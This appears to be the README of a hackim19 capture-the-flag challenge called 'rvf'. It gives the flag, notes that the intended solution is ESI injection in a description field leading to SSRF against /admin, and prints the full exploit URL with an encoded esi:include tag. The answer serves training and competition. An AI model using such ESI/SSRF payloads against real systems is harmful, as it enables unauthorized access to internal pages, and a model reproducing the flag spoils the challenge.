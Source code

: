 # name: rvf

# flag: hackim19{h0w_Did_y0ou-Get_here}

# solution
- Need to perform ESI Injection on description
- SSRF to /admin

http://192.168.169.129:8080/edge?title=asd&description=asd%3Cesi:include%20src=%22http://192.168.169.129:8080/admin%22/%3E


#Installation
- run ./start.sh
